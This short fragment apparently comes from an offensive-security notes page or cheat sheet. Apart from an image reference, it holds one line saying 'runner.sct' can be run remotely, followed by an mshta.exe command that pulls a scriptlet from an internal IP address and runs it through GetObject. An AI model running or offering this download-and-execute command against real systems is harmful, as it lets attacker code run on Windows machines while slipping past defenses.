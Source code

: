 We can execute `runner.sct` remotely with:

- `mshta.exe "javascript:GetObject('script:http://192.168.50.145/test.sct');close();"`
